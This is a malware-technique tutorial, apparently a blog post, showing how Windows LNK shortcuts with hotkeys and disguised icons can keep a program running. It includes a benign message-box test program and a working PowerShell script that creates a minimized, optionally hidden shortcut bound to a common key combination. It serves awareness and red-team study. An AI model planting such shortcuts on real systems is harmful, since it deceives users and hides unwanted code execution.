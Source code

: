 \newpage
\subsection{89. malware development: persistence - part 23. LNK files. Simple Powershell example.}

﷽

![pers](./images/112/2023-12-11_01-01_1.png){width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows LNK files.     

### LNK

According to [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943), an `LNK` file serves as a shortcut or "link" in Windows, providing a reference to an original file, folder, or application. For regular users, these files serve a meaningful purpose, facilitating file organization and workspace decluttering. However, from an attacker's perspective, `LNK` files take on a different significance. They have been exploited in various documented attacks by APT groups and, to my knowledge, remain a viable option for activities such as phishing, establishing persistence, executing payloads.     

Do you know that Windows shortcuts can be registered using a shortcut key in terms of execution? This is the main trick for malware persistence in this case.    

### practical example

Let's say we have a "malware". As usually, `meow-meow` messagebox application `hack.c`:    

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And then, just create powershell script for create `LNK` file with the following properties:     

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

As you can see, the logic is pretty simple. We simply create a shortcut on the desktop that has a hotkey specified: `CTRL+W`. Of course, in real attack scenarios it could be something like `CTRL+C`, `CTRL+V` or `CTRL+P`, etc.    

For example, if you create a shortcut for `Paint`, it does not have any hotkey specified:    

![pers](./images/112/2023-12-09_23-54.png){width="80%"}    

> Explorer restricts shortcut support to commands beginning with CTRL+ALT. Additional sequences must be set programmatically through COM.    

### demo

Let's go to see everything in action. First of all, compile our "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/112/2023-12-11_01-28.png){width="80%"}    

For checking correctness, run it:    

```powershell
.\hack.exe
```

![pers](./images/112/2023-12-11_00-51.png){width="80%"}    

The just run our powershell script for persistence:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

![pers](./images/112/2023-12-11_00-57.png){width="80%"}    

As a result, Meow LNK file is created successfully.    

If we look at its properties, everything is ok:     

![pers](./images/112/2023-12-11_01-01.png){width="80%"}    

Finally just run it and try to trigger `CTRL+W` hotkey:     

![pers](./images/112/2023-12-11_01-02.png){width="80%"}    

![pers](./images/112/2023-12-11_01-05.png){width="80%"}    

As you can see, everything worked perfectly as expected! =^..^= :)    

This technique is used by APT groups like [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) and software like [Emotet](https://attack.mitre.org/software/S0367/) in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Many thanks to my friend and colleague [Anton Kuznetsov](https://twitter.com/yrevichus), he reminded me of this technique when he presented one of his most amazing talks.     

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     
